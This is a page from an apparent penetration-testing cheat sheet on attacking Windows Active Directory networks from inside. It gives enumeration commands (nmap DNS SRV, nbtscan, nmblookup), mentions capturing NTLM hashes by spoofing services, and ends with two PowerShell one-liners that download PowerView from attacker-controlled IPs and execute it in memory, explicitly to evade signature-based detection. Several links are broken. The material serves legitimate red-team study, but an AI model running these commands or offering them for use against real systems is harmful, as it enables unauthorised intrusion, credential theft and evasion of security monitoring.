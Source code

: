 ### <mark style="color:orange;">nmap</mark>

```
nmap --script dns-srv-enum --script-args dns-srv-enum.domain=$FQDN_DOMAIN
```

## <mark style="color:red;">Enum NBT-NS</mark>

```
# Name lookup on a range
nbtscan -r $SUBNET/$MASK
​
# Find names and workgroup from an IP address
nmblookup -A $IPAdress
```

## <mark style="color:red;">**MitM & Spoofing**</mark>

{% hint style="info" %}
The oldest and still, most effective technique is service spoofing and capturing NTLM hashes.
{% endhint %}

**Assuming that you are conected to the internal network (part of the domain) but dont have access to any system in the domain.**

#### **check out** [**MITM**](broken-reference)  **Section for a full list of these attacks.**

## <mark style="color:red;">Exploitation with Credentials</mark>

{% hint style="info" %}
After capturing the hashes, we can get out initial access to one of the joined systems and move up to DC.
{% endhint %}

#### Check [crackmapexec](broken-reference) and [Impacket ](broken-reference)sections.

## <mark style="color:red;">Load scripts in Memory</mark>

### <mark style="color:orange;">**Load PowerShell script reflectively**</mark>

To avoid signature based detection we should load our tools and scripts directly into target system mmoey:

```
# proxy-aware
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')

# non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText

```
